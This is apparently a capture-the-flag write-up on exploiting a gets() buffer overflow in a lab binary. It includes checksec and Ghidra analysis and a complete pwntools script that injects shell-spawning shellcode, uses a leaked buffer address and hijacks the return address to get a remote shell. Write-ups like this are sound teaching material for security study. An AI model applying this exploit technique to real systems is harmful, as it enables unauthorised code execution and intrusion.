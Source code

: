 # Reconnaissance
## C Review
The `main()` function looks pretty plain, the use of `fgets()` protects the `sample` buffer from overflowing, so there is no vulnerability in that. But the last part of `main()` calls another function, `vuln()`. `vuln()` calls `gets()` to write into the `buf` variable, allowing us to over flow, which is an obvious attack vector. However, there is no function call to overwrite here, and no `win()` function to change the return address to. But, the `vuln()` does print something, and it leaks the address of `buf`! What this means is that we can put our own shellcode into `buf` and then overflow into the return address, changing this to the address of `buf` so that we call our own code.

## Binary Analysis
First, lets check how the ELF runs with the `checksec` command:
>$checksec ./challenge/chall_3

>Arch:     amd64-64-little  
>RELRO:    Full RELRO  
>Stack:    No canary found  
>NX:       NX disabled  
>PIE:      PIE enabled  
>RWX:      Has RWX segments  

A couple things to note here: firstly, stack canary is disabled which will make things easier and NX is disabled which means there is no protection stopping our own code from executing. PIE is enabled, so we will need to use the address leaked in the `vuln()` function to know where `buf` is. Additionally there are RWX segments, which is what allows our code to execute. There is also Full RELRO, which I don't fully understand myself, but I believe that it prevents buffer overflow attacks from going to other FUNCTIONS, but won't stop us from redirecting the return address to inside of the buffer.

Next, lets decompile the executable file we were given with Ghidra to get an idea of what the stack looks like in the `vuln()` function.  

![Ghidra Vuln Function Image](writeUpFiles/ghidra1.png)  

Looking into Ghidra we can see that `local_78` is the buffer, and it is located at memory address -0x78 on the stack--which means it has a length of 112 bytes. That's the most significant information we can get from Ghidra, since PIE is enabled and memory addresses here will not be absolute.  

# Script
To start testing, we are going to run our script on the ELF we were given for the challenge. We can load it like this:
```{python}
from pwn import *

EXE = ELF("./challenge/chall_3")

context.binary = EXE
context.terminal = ['xterm', '-e']
context.log_level = "DEBUG"

def conn(useExe=False):
	if useExe:
		# r = gdb.debug(EXE.path, "\n".join(breakpoints))
		r = process([EXE.path])
	else:
		r = remote('pwn.osucyber.club',13373)
	return r
```
The `ELF()` function from `pwn` allows us to add information about the binary to our `pwn` context, and we set the `log_level` to "DEBUG" so that we will get verbose output from all of the functions describing what was received or sent. The `conn()` function being set up here simply allows us to minimally change the program to run remotely when we are finished with testing. Calling `conn(True)` connects to the local installation of the server executable, whose path is written in the definition of the `EXE` variable. Then once our testing is completed, we can call `conn(False)` to make a connection to the remote server.

Next, we get the input from the process and find the address of `buf`:
```{python}
io = conn(False)
# Wait for the process to send "One more time" and respond to move onto vuln()
io.recvline()
io.send(b'a\n')

# Wait for the program to leak the address of the buffer we are writing to:
io.recvuntil("No really, it was pretty good before COVID: ")
data = io.recvline()[:-1]
buf_address = int(data, 16)
```

Finally, we craft and send our payload:
```{python}
# Create a payload with an offset of 120 bytes then the address of the buffer send it, and open an 
# interactive terminal -- The system is 64-bit so we need a 64-bit pointer to the address of buf.
# This offset is 120 bytes because buf is 112 bytes, and the base pointer between the buffer and
# the return address is an additional 8 bytes (64-bit system)
payload = asm(shellcraft.sh())
payload += b'a'*(120-len(payload))
payload += p64(buf_address)+b'\n'
print(len(payload))
io.send(payload)
io.interactive()

io.close()
```

If this spawns a terminal, then our code worked! We can run it again on the server then call `ls` and `cat flag.txt` in the interactive shell!